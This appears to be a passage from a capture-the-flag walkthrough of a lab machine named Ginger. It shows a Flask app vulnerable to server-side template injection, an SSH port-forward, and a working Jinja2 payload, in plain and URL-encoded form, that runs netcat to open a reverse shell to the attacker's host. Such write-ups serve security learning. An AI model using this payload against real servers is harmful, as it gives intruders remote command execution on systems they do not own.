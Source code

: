 Let's read the **'/opt/app.py'** file.

sabrina@ginger:~$ cat /opt/app.py

    from flask import Flask, request, render_template_string,render_template

    app = Flask(__name__)
    @app.route('/')
    def hello_ssti():
        person = {'name':"world",'secret':"UGhldmJoZj8gYWl2ZnZoei5wYnovcG5lcnJlZg=="}
        if request.args.get('name'):
            person['name'] = request.args.get('name')
        template = '''<h2>Hello %s!</h2>''' % person['name']
        return render_template_string(template,person=person)
    def get_user_file(f_name):
        with open(f_name) as f:
            return f.readlines()
    app.jinja_env.globals['get_user_file'] = get_user_file

    if __name__ == "__main__":
        app.run(debug=True)

The server isn't running on **'0.0.0.0'** which means we can't access it. Since we can access the remote server using SSH let's port forward the server's content to our localhost. 

    root@kali ~/D/M/Ginger# ssh -L 8080:localhost:5000 sabrina@10.0.0.26

![image](https://user-images.githubusercontent.com/76552238/188196229-c2916bcb-30e7-4971-b0e9-ed364cff2b85.png)

    {% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").popen("nc 10.0.0.27 5555 -e /bin/bash").read()') }}
        {% endif %}
    {% endif %}
    {% endfor %}
    {% endif %}
    {% endfor %}

Going to **'http://localhost:8080/?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}{%%20if%20b.__class__%20==%20{}.__class__%20%}{%%20if%20%27eval%27%20in%20b.keys()%20%}{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22nc%2010.0.0.27%205555%20-e%20/bin/bash%22).read()%27)%20}}{%%20endif%20%}{%%20endif%20%}{%%20endfor%20%}{%%20endif%20%}{%%20endfor%20%}'** we get a reverse shell as the user webmaster.

    2022/09/02 17:29:01 CMD: UID=0    PID=2200   | /usr/sbin/CRON -f 
    2022/09/02 17:29:01 CMD: UID=0    PID=2201   | /usr/sbin/CRON -f 
    2022/09/02 17:29:01 CMD: UID=1002 PID=2202   | /bin/sh -c bash ~/backup/backup.sh 
    2022/09/02 17:29:01 CMD: UID=1002 PID=2203   | bash /home/caroline/backup/backup.sh 

>
    Remote Server:


[1]: "https://www.exploit-db.com/exploits/37560"